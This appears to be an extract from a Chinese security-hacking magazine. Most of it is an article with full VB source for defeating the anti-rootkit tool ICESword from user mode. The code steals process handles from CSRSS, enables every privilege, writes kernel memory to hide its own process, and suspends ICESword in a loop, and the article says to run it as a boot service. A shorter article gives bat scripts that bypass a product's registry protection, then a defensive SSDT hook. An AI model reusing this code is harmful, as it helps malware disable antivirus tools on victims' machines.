

图2

当时我完全搞懂这个代码时，第一个想到的就是 ARP 防火墙，但是刚才我说到了这个回调函数的 PacketHeader 是一个 IP 头部，而如果你看过 TCP/IP 协议的树形结构就会知道 ARP 和 IP 是平级的，换句话说这个方法是不能实现 ARP 防火墙的。抱着研究学习的目的，我在网上搜集了相关信息，后来得知要实现 ARP 防火墙需要写一个 NDIS 中间层驱动，而这个驱动相对来说比较复杂，代码也很多，有兴趣的读者可以到网上搜集相关的信息。

前置知识：VB  
关键词：编程、进程保护、系统服务

## 用户模式下突破 ICESword 进程保护

文／Weizhao Liu



ICESword 是一款著名的辅助性反病毒工具，功能十分强大，可用于探查系统中的幕后黑手、木马后门等。大家可能用过很多类似功能的软件，比如一些进程工具、端口工具等，但是现在的系统级后门功能越来越强，一般都可轻而易举地隐藏进程、端口、注册表、文件信息，一般的工具根本无法发现这些幕后黑手。

ICESword 使用了大量新颖的内核技术，使得这些后门躲无所躲。而且 ICESword 拥有很好的自我进程保护功能，它使用驱动程序在内核模式挂钩了由 ntoskrnl.exe 导出的 NtOpenProcess、NtOpenThread、NtTerminateProcess 和 NtTerminateThread 函数，使得其他进程和驱动程序无法通过标准方式获取 ICESword 进程句柄进而对其进行操作。大部分进程管理器，包括杀毒软件都对 ICESword 无可奈何，更别说病毒木马了。有的与 ICESword 功能类似的 AntiRootkit 程序（如 DarkSpy）可以通过调用未导出函数 PspTerminateProcess 来结束 ICESword 进程，但这需要编写驱动程序。目前许多杀毒软件都拦截了加载驱动程序的函数，而且找到 PspTerminateProcess 的地址也不是一件容易的事。可以说 ICESword 的存在严重威胁着病毒木马的安全。本文要介绍的就是如何在用户模式下突破 ICESword 的进程保护并让它无法运行。实际上实现这个功能很简单，使用 VB 即可完成，有兴趣的读者可以把它转译成 Delphi、VC 等其他语言。

首先我要说的是，在 NT 内核的 Win32 子系统中创建进程时，实际操作并不全部由父进程来完成。父进程在调用 Win32 API CreateProcess、CreateProcessAsUser 等函数创建进程时会先创建进程和线程的内核对象并初始化子进程的虚拟内存空间和写入进程环境块，然后父进程会调用 ntdll.dll 中的 CsrClientCallServer 向 Win32 子系统进程（CSRSS.EXE）发送一条消息，其中包括子进程和它第一个线程的标识符和句柄，还有父进程的标识符，让子系统进程创建与子进程的第一个线程相对应的服务端线程，在子系统进程链表中加入子进程的内容，初始化子进程内核对象中的 W32PROCESS 结构以便让 Win32k.sys 对其进行管理。

这说明 CSRSS.EXE 进程的句柄表中会包含除了 System Idle Process、System、SMSS.EXE、CSRSS.EXE 之外的所有进程的句柄（除非你使用 NtDuplicateObject 或创建远程线程把它关闭）。这些进程句柄是很重要的，当一个子系统环境下的进程要创建新进程或线程时，都会向 CSRSS.EXE 发送消息，让它帮助自己干一些活，如果 CSRSS.EXE 中没有这个进程的句柄的话，操作将会失败。当用户尝试关闭一个没有响应的窗口时，CSRSS.EXE 会显示结束程序窗口，点击“立即结束”按钮后，没有响应的窗口对应的进程会被 CSRSS.EXE 结束，这时 CSRSS.EXE 就会用此进程被创建时父进程传递的句柄来结束它。这个特性为我们突破 ICESword 的进程保护提供了解决办法，因为 ICESword 的进程也是运行于子系统中的，所以 CSRSS.EXE 中一定有它的句柄。我们可以通过 NtQuerySystemInformation 获得所有进程的句柄信息，然后从中找到 CSRSS.EXE 中 ICESword 的进程句柄并加以利用。实现此功能的实际代码如下（这部分代码还包括通过使用 NtSystemDebugControl 实现的进程保护，可以用于辅助病毒木马）。

```vb
Option Explicit

Type SYSTEM_HANDLE_INFORMATION
    UniqueProcessId As Integer
    CreatorBackTraceIndex As Integer
    ObjectTypeIndex As Byte
    HandleAttributes As Byte
    HandleValue As Integer
    Object As Long
    GrantedAccess As Long
End Type

Type OBJECT_ATTRIBUTES
    Length As Long
    RootDirectory As Long
    ObjectName As Long
    Attributes As Long
    SecurityDeor As Long
    SecurityQualityOfService As Long
End Type

Type PROCESS_BASIC_INFORMATION
    ExitStatus As Long
    PebBaseAddress As Long
    AffinityMask As Long
    BasePriority As Long
    UniqueProcessId As Long
    InheritedFromUniqueProcessId As Long
End Type

Type PROCESS_PRIORITY_CLASS
    Foreground As Byte
    PriorityClass As Byte
End Type

Type CLIENT_ID
    UniqueProcess As Long
    UniqueThread As Long
End Type

Type THREAD_BASIC_INFORMATION
    ExitCode As Long
    TEBAddress As Long
    ClientID As CLIENT_ID
    AffinityMask As Long
    Priority As Long
    BasePriority As Long
End Type

Type LARGE_INTEGER
    lowpart As Long
    highpart As Long
End Type

Type LUID_AND_ATTRIBUTES
    LUID As LARGE_INTEGER
    Attributes As Long
End Type

Type MAX_TOKEN_PRIVILEGES
    PrivilegeCount As Long
    Privileges(24) As LUID_AND_ATTRIBUTES
End Type

Enum SYSDBG_COMMAND
    SysDbgGetTraceInformation = 1
    SysDbgSetInternalBreakpoint = 2
    SysDbgGetIgnoreUmExceptions = 27
    SysDbgSetIgnoreUmExceptions = 28
End Enum

Type MEMORY_CHUNKS
    MemoryAddress As Long
    BufferAddress As Long
    BufferLength As Long
End Type

Const SE_PRIVILEGE_ENABLED As Long = &H2
Const TOKEN_ADJUST_PRIVILEGES As Long = &H20
Const TOKEN_QUERY As Long = &H8

Public CSRSS_ID As Long, CSRSS_HANDLE As Long

Declare Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long)
Declare Function CsrGetProcessId Lib "ntdll.dll" () As Long
Declare Function ZwClose Lib "ntdll.dll" (ByVal Handle As Long) As Long
Declare Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As Long)
Declare Function NtOpenThread Lib "ntdll.dll" (ByRef hProcess As Long, ByVal DesiredAccess As Long, ObjectAttributes As Any, ClientID As Any) As Long

Sub LocateCSRSS()
    ' 此函数用于定位 CSRSS.EXE
    On Error GoTo E
    Dim ObjectAttributes As OBJECT_ATTRIBUTES, ClientID As CLIENT_ID
    CSRSS_ID = CsrGetProcessId
    ' 使用 API 获取 CSRSS.EXE 的进程标识符
    ClientID.UniqueProcess = CSRSS_ID
    ' 保留进程标识符备用
    ClientID.UniqueThread = 0
    NtOpenProcess CSRSS_HANDLE, 2035711, ObjectAttributes, ClientID
    ' 打开 CSRSS.EXE 并保留句柄备用
E:
End Sub

Function GetHandleList() As SYSTEM_HANDLE_INFORMATION()
    ' 此函数用于获取所有进程的句柄信息
    On Error GoTo E
    Dim Status As Long, ret As Long, NumHandles As Long, HandleInfo() As SYSTEM_HANDLE_INFORMATION, RequiredLength As Long, Buffer() As Byte
    Do
        ReDim Buffer(19)
        RequiredLength = 20
        Status = NtQuerySystemInformation(16, Buffer(0), RequiredLength, ByVal 0)
        If Status = 0 Then Exit Do
        CopyMemory NumHandles, Buffer(0), 4
        RequiredLength = NumHandles * 16 + 4
        ReDim Buffer(0 To RequiredLength)
        Status = NtQuerySystemInformation(16, Buffer(0), RequiredLength, ByVal 0)
        ReDim HandleInfo(NumHandles)
        CopyMemory HandleInfo(0), Buffer(4), RequiredLength - 4
    Loop While Status = &HC0000004
    GetHandleList = HandleInfo
E:
End Function

Function GetProcessIdentifier(ByVal ProcessHandle As Long) As Long
    ' 此函数用于通过进程句柄获取进程标识符
    On Error GoTo E
    Dim Info As PROCESS_BASIC_INFORMATION
    If NtQueryInformationProcess(ProcessHandle, 0, Info, Len(Info), ByVal 0&) = 0 Then
        GetProcessIdentifier = Info.UniqueProcessId
    End If
E:
End Function

Function GetThreadIdentifier(ByVal ThreadHandle As Long) As Long
    ' 此函数用于通过线程句柄获取线程标识符
    On Error GoTo E
    Dim Info As THREAD_BASIC_INFORMATION
```

If NtQueryInformationThread(ThreadHandle, 0, Info, Len(Info), ByVal 0&) = 0 Then
    GetThreadIdentifier = Info.ClientID.UniqueThread
End If
E: End Function

Function EnumerateProcessHandle(ByVal ProcessId As Long, ObjectHandle As Long, ObjectAddress As Long) As Long
' ObjectHandle 参数用于保存指定进程在 CSRSS.EXE 中的句柄编号，ObjectAddress 用于保存指定进程的内核对象地址
On Error GoTo E
Dim PT() As SYSTEM_HANDLE_INFORMATION, c As Integer, hProcess As Long, r As Long
PT = GetHandleList   ' 获取所有进程的句柄列表
For c = 0 To UBound(PT)
    If PT(c).UniqueProcessId = CSRSS_ID And PT(c).ObjectTypeIndex = 5 Then
        ' 判断句柄是否为 CSRSS.EXE 所有且是否为进程对象的句柄
        r = NtDuplicateObject(CSRSS_HANDLE, PT(c).HandleValue, -1, hProcess, 2035711, 0, 0)
        ' 复制句柄到当前进程并设置权限为 PROCESS_ALL_ACCESS
        If GetProcessIdentifier(hProcess) = ProcessId Then
            ObjectHandle = PT(c).HandleValue
            ObjectAddress = PT(c).Object
            EnumerateProcessHandle = hProcess
            Exit Function
        End If
        ZwClose hProcess
    End If
Next
E: End Function

Function OpenProcess(ByVal dwDesiredAccess As Long, ByVal bInheritHandle As Long, ByVal dwProcessId As Long) As Long
' 用 EnumerateProcessHandle 编写一个功能更强大的 OpenProcess
On Error GoTo E
Dim ObjectAttributes As OBJECT_ATTRIBUTES, ClientID As CLIENT_ID, hProcess As Long, hProcess2 As Long, Ta As Long, Tb As Long
ClientID.UniqueProcess = dwProcessId
ClientID.UniqueThread = 0
NtOpenProcess hProcess, dwDesiredAccess, ObjectAttributes, ClientID
NtOpenProcess hProcess2, dwDesiredAccess, ObjectAttributes, ClientID
If ZwClose(hProcess2) <> 0 Then
    hProcess = EnumerateProcessHandle(dwProcessId, Ta, Tb)
End If
OpenProcess = hProcess
E: End Function

Function EnumerateThreadHandle(ByVal ThreadId As Long) As Long
' 此函数用于获取线程句柄；方法和 EnumerateProcessHandle 差不多
On Error GoTo E
Dim PBB() As SYSTEM_HANDLE_INFORMATION, hProcess As Long, hThread As Long, c As Integer
PBB = GetHandleList
For c = 1 To UBound(PBB)
    If PBB(c).UniqueProcessId <> PBB(c - 1).UniqueProcessId Then
        ZwClose hProcess
        hProcess = OpenProcess(2035711, 0, PBB(c).UniqueProcessId)
    End If
    If PBB(c).ObjectTypeIndex = 6 Then
        If NtDuplicateObject(hProcess, PBB(c).HandleValue, -1, hThread, 2035711, 0, 0) = 0 Then
            If GetThreadIdentifier(hThread) = ThreadId Then
                EnumerateThreadHandle = hThread
                Exit Function
            Else
                ZwClose hThread
            End If
        End If
    End If
Next
E: End Function

Function OpenThread(ByVal dwDesiredAccess As Long, ByVal NoEnumHandle As Long, ByVal dwThreadId As Long) As Long
' 用 EnumerateThreadHandle 编写一个功能更强大的 OpenThread
On Error GoTo E
Dim ObjectAttributes As OBJECT_ATTRIBUTES, ClientID As CLIENT_ID, hThread As Long, hThread2 As Long
ClientID.UniqueProcess = 0
ClientID.UniqueThread = dwThreadId
NtOpenThread hThread, dwDesiredAccess, ObjectAttributes, ClientID
NtOpenThread hThread2, dwDesiredAccess, ObjectAttributes, ClientID
If ZwClose(hThread2) <> 0 And NoEnumHandle = 0 Then
    hThread = EnumerateThreadHandle(dwThreadId)
End If
OpenThread = hThread
E: End Function

Function LookupProcess(ByVal ProcessId As Long) As Long
' 此函数用于获取进程的内核对象地址（即 EPROCESS 基地址）
On Error GoTo E
Dim hProcess As Long, PU() As SYSTEM_HANDLE_INFORMATION, c As Integer
hProcess = OpenProcess(2035711, 0, ProcessId)
PU = GetHandleList
For c = 0 To UBound(PU)
    If PU(c).HandleValue = hProcess And PU(c).UniqueProcessId = GetCurrentProcessId Then
        LookupProcess = PU(c).Object
        Exit For
    End If
Next
E: ZwClose hProcess
End Function

Function LookupThread(ByVal ThreadId As Long) As Long
' 此函数用于获取线程的内核对象地址（即 ETHREAD 基地址）
On Error GoTo E
Dim hThread As Long, PU() As SYSTEM_HANDLE_INFORMATION, c As Long
hThread = OpenThread(2035711, 0, ThreadId)
PU = GetHandleList
For c = 0 To UBound(PU)
    If PU(c).HandleValue = hThread And PU(c).UniqueProcessId = GetCurrentProcessId Then
        LookupThread = PU(c).Object
        Exit For
    End If
Next
E: ZwClose hThread
End Function

Sub GetAllPrivilege()
' 此过程用于将所有特权搞到手
On Error GoTo E
Dim TP As MAX_TOKEN_PRIVILEGES
Dim hToken As Long, r As Long, E As Long
r = OpenProcessToken(-1, TOKEN_ADJUST_PRIVILEGES Or TOKEN_QUERY, hToken)
TP.PrivilegeCount = 25
r = LookupPrivilegeValue(vbNullString, "SeDebugPrivilege", TP.Privileges(0).LUID)
...
r = LookupPrivilegeValue(vbNullString, "SeManageVolumePrivilege", TP.Privileges(24).LUID)

Dim c As Integer
For c = 0 To 24
    TP.Privileges(c).Attributes = SE_PRIVILEGE_ENABLED
Next
r = AdjustTokenPrivileges(hToken, False, TP, LenB(TP), ByVal 0, ByVal 0)
ZwClose hToken
E: End Sub

Function WriteKernelMemory(ByVal Address As Long, ByVal Data As Long) As Boolean
' 此函数利用 API NtSystemDebugControl 写内核区域的内存
On Error GoTo E
Dim MemChunk As MEMORY_CHUNKS
MemChunk.MemoryAddress = Address
MemChunk.BufferAddress = VarPtr(Data)
MemChunk.BufferLength = 4
WriteKernelMemory = (NtSystemDebugControl(SysDbgWriteKernelMemory, MemChunk, Len(MemChunk), ByVal 0, 0, ByVal 0) = 0)
E: End Function

Function ReadKernelMemory(ByVal Address As Long) As Long
' 此函数利用 API NtSystemDebugControl 读内核区域的内存
On Error GoTo E
Dim MemChunk As MEMORY_CHUNKS, Data As Long
MemChunk.MemoryAddress = Address
MemChunk.BufferAddress = VarPtr(Data)
MemChunk.BufferLength = 4
NtSystemDebugControl SysDbgReadKernelMemory, MemChunk, Len(MemChunk), ByVal 0, 0, ByVal 0
ReadKernelMemory = Data
E: End Function

Function SetPriorityOfProcess(ByVal ProcessHandle As Long, ByVal BasePriority As Long, ByVal PriorityClass As Long) As Boolean
' 此函数用于设置进程优先级和基本优先级
On Error GoTo E
Dim buf As PROCESS_PRIORITY_CLASS, r As Long, r2 As Long
r = NtSetInformationProcess(ProcessHandle, 5, BasePriority, 4)
buf.Foreground = 1
buf.PriorityClass = PriorityClass
r2 = NtSetInformationProcess(ProcessHandle, 18, buf, 2)
SetPriorityOfProcess = (r = 0 And r2 = 0)
E: End Function

Function SetPriorityOfThread(ByVal ThreadHandle As Long, ByVal BasePriority As Long, ByVal PriorityClass As Long) As Boolean
' 此函数用于设置线程优先级和基本优先级
On Error GoTo E
Dim r As Long, r2 As Long
r = NtSetInformationThread(ThreadHandle, 3, BasePriority, 4)
r2 = NtSetInformationThread(ThreadHandle, 2, PriorityClass, 4)
SetPriorityOfThread = (r = 0 And r2 = 0)
E: End Function

Sub ModifyProcessObject(ByVal ProcessId As Long, ByVal NewProcessId As Long)
' 此过程用于修改进程内核对象数据来保护进程
On Error GoTo E
Dim EProcess As Long, C As Long
EProcess = LookupProcess(GetCurrentProcessId)
' 获取 EPROCESS 地址
For C = 0 To 11
    WriteKernelMemory EProcess + C, 0
    ' 破坏 KPROCESS 的 DISPATCHER_HEADER，使其无法通过 NtOpenProcess 获取指定进程的句柄
Next
WriteKernelMemory EProcess + &H248, 4
' 用硬编码将进程的 CrossFlag 设为 4，表示此进程已结束
For C = 4 To 400
    If ReadKernelMemory(C + EProcess) = ProcessId Then WriteKernelMemory C + EProcess, NewProcessId
    ' 搜索并改写进程标识符
Next
E: End Sub

Sub ModifyThreadObject(ByVal ThreadId As Long)
On Error GoTo E
Dim EThread As Long
EThread = LookupThread(ThreadId)
WriteKernelMemory EThread + &H248, &H10
' 将线程 CrossFlag 设为 16，表示系统线程，禁止结束
E: End Sub

Sub CheckICESword()
On Error GoTo E
Dim C As Long, h As Long
For C = 8 To 44444 Step 4
    ' 在较大范围内搜索 ICESword 进程
    h = OpenProcessR(1, 0, C)
    ' 原本的 Win32 API OpenProcess
    If Err.LastDllError = 998 Then Exit For
    ' 错误 998 的描述为内存访问地址无效
    ZwClose h
Next
h = OpenProcess(2035711, 0, C)
' 用自己的 OpenProcess 打开 ICESword 进程句柄
NtSuspendProcess h
' 挂起 ICESword 进程
ZwClose h
E: End Sub

Sub Main()
' 程序开始运行
GetAllPrivilege
LocateCSRSS
SetPriorityOfProcess -1, 31, 4
SetPriorityOfThread -2, 31, 31
ModifyProcessObject GetCurrentProcessId, -12345
ModifyThreadObject GetCurrentThreadId
Do
    Sleep 1000
    CheckICESword
Loop
End Sub

现在我们就可以把本程序注册为系统服务，让它开机就运行（别忘了把服务的组设为“System Reserved”，让其能最先被启动，还要在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SafeBoot` 下添加相应项，以便在安全模式下运行），让 ICESword 永无翻身的机会。

适合读者：编程爱好者

前置知识：VC

### 东方微点注册表保护绕过及反绕过浅析

文/图 张东辉[shineast] 刘英

东方微点是目前优秀的国产主动防御安全软件。正如其产品介绍所言，“东方微点——主动防御概念的缔造者，首创仿真反病毒专家系统，通过程序行为分析，自动准确识别未知病毒或新病毒，明确报告病毒性质，自动清除病毒，给用户带来前所未有的安全体验。”无论如何，在如今这样一个每日成千上百种未知病毒、木马涌入互联网的时代，我们为拥有这样一款国产主动防御软件而感到欣慰！

然而，东方微点防御软件系统分析部分的注册表保护功能，据我测试，并不完善，很容易被绕过。本文就将介绍如何绕过微点的注册表保护，同时研究对这种绕过的反绕过技术，并编程简单实现。

下面我们就一起来研究一下东方微点的注册表保护的绕过与反绕过技术，让我们在攻与防的对立统一中，寻找突破，寻找乐趣！

为了测试微点的注册表保护功能，我将其中的“IE标题”项设置为“保护状态”，该注册项为 HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Window Title，当前的键值为 Microsoft Internet Explorer，如图1所示。



图1 东方微点主界面之注册表保护

#### 微点注册表保护篇

首先简单介绍一下东方微点的注册表保护功能。打开程序主界面后，点击左侧主功能区菜单中的系统分析，再点击系统分析下的注册表保护，就能看到东方微点默认的预保护注册表项列表。在没有任何用户设置前，所有项目的保护状态都标记为“未保护”。我们可以点击下面的“保护”按钮来改变这个状态以实现保护。但是不知为何，微点没有实现用户自主添加新保护项的功能，但这个功能应该是很基本的功能，希望日后微点能予以改善。

现在我们用 regedit 来修改上面的注册项键值，看看微点是否能拦截，如图2、图3所示。不出我们所料，微点确实能够拦截我们的修改动作。在屏幕的右下方迅速地浮出了一个警示信息询问框，询问是阻止还是放行。这说明直接修改被保护的注册表项被微点拦截了。那么间接修改注册表呢？

#### 微点注册表保护绕过篇

图2 用 regedit 来修改 IE 标题

文件导入方式间接修改注册表。这种方式在网上已经很盛行了，而且很多主动防御软件都能用这种方法绕过。希望能引起杀毒软件的重视。废话不多说，为了实践这种方式，我特意写了两个 bat 脚本。

reg save.bat 文件

```bat
reg save "HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main" run.hiv
pause
```

reg restore.bat 文件

```bat
reg restore "HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main" run.hiv
pause
```

实现很简单，一个是把 HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main 项下的子键及键值统统保存到当前路径下的 run.hiv 文件中；另一个是把当前路径下的 run.hiv 文件导入到 HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main 中。值得一提的是，这种从 hiv 文件导入的方式是覆盖式的，hiv 文件中是什么，导入进去就是什么样的内容。因此这里提醒大家做实验的时候，最好先把要覆盖的注册表项备份一下，万一修改错了，还可以恢复。

图3 东方微点注册表保护之询问框

Microsoft Internet Explorer1，如果运行了“reg restore.bat”文件，成功的话，打开 IE，IE 的默认标题应该会变成 Microsoft Internet Explorer1。如图4所示。

图4 运行 reg restore.bat 文件成功导入了 run.hiv 文件到注册表中

在运行过程中，微点没有半点反应，操作成功地结束了，打开一个 IE，发现标题栏上确实多了一个“1”，如图5所示。

图5 IE 标题栏上多了一个“1”

至此就明了微点注册表保护确实不够完善。那么为什么会这样呢？为什么直接修改注册表，微点可以拦截，而间接修改注册表，微点却不能拦截？其实这个问题，打开 IceSword 看看 SSDT，就有答案了！事实上，直接修改注册表，在 Windows Native API 层面来看，是调用了 NtOpenKey 和 NtNotifyChangeKey，创建注册项是调用了 NtCreateKey，这些 Native API 函数都被微点 hook 了；而通过 hiv 文件导入的方式，间接修改注册表是调用了 NtRestoreKey，而这个 API 并没有被微点 hook。——这就是为什么微点注册表保护被绕过的原因。

#### 反绕过篇

了解了上面分析的原因，我们就抓住了问题的关键，因此反绕过也不是很困难，只要想办法 hook 住 SSDT 中的 NtRestoreKey 函数即可。这样，当使用上面的方式绕过注册表保护时，就会被拦截下来。

反绕过的原理很简单，就是钩住 NtRestoreKey 这个 Native API，下面我们就来实现这个功能，算是做一点实验。

我的思路是这样的，写两个程序，一个作为前台界面程序，和用户交互，询问用户是否放行等；另一个程序是一个驱动，由前台程序负责安装到本机，前台程序关闭时，负责卸载该驱动程序，这个驱动负责 hook SSDT 中的 NtRestoreKey 函数，拦截所有调用，拦截后把一些信息告诉前台程序，前台程序再询问用户，返回结果给驱动程序。

具体细节请参阅程序源码，我已经详细注释了。如果大家还有问题，欢迎到论坛与我讨论，这里我只讲解一些关键代码。

```cpp
void CMainFrame::go()
{
    // 安装设备驱动
    setup();
    DWORD controlbuff[64];
    DWORD dw;
    // 从驱动程序拦截的修改注册表的动作，然后询问用户是否放行
    CreateThread(0,0,(LPTHREAD_START_ROUTINE)threadfun,0,0,&dw);

    // 打开设备
    device=CreateFile("\\\\.\\REGMON", GENERIC_READ|GENERIC_WRITE,0,0,
        OPEN_EXISTING,FILE_ATTRIBUTE_SYSTEM,0);

    // 得到 ntdll 中的 NtRestoreKey 函数的地址
    DWORD *addr=(DWORD *)(1+(DWORD)GetProcAddress(GetModuleHandle("ntdll.dll"),"NtRestoreKey"));

    ZeroMemory(outputbuff,256);
    controlbuff[0]=addr[0];
    controlbuff[1]=(DWORD)&outputbuff[0];

    DeviceIoControl(device,1000,controlbuff,256,controlbuff,256,&dw,0);
}
```

以上是前台程序的任务，首先安装驱动，然后创建一个新线程，专门等着驱动拦截到的注册表修改动作；接着打开设备，并通过 DeviceIoControl 函数调用驱动中的 1000 号函数，完成相应的任务，同时在调用 DeviceIoControl 函数的同时，把获得的 SSDT 中的 NtRestoreKey 函数地址发送过去，这样驱动就可以覆盖这个函数地址来实现 hook Native API 了。

下面我们再看一下我们的驱动程序做什么，当它收到来自我们的应用程序的 IOCTL 时：

```cpp
// IRP 派遣例程——IRP_MJ_DEVICE_CONTROL
// driver->MajorFunction[IRP_MJ_DEVICE_CONTROL]=DrvDispatch;
NTSTATUS DrvDispatch(IN PDEVICE_OBJECT device, IN PIRP Irp)
{
    UCHAR *buff=0; ULONG a,base;
    PIO_STACK_LOCATION loc=IoGetCurrentIrpStackLocation(Irp);
    if(loc->Parameters.DeviceIoControl.IoControlCode==1000)
    {
        buff=(UCHAR*)Irp->AssociatedIrp.SystemBuffer;
        // 修改 SSDT 中函数调用地址
        memmove(&index,buff,4);
        a=4*index+(ULONG)KeServiceDescriptorTable->ServiceTable;
        base=(ULONG)MmMapIoSpace(MmGetPhysicalAddress((void*)a),4,0);
        a=(ULONG)&Proxy;
        __asm {
            mov eax,base
            mov ebx,dword ptr[eax]
            mov RealCallee,ebx
            mov ebx,a
            mov dword ptr[eax],ebx
        }
        tmp=(char*)base;
        MmUnmapIoSpace(tmp,4);
        memmove(&a,&buff[4],4);
        output=(char*)MmMapIoSpace(MmGetPhysicalAddress((void*)a),256,0);
    }
    Irp->IoStatus.Status=0;
    IoCompleteRequest(Irp,IO_NO_INCREMENT);
    return 0;
}
```

#### PROGRAMMING ANALYSE

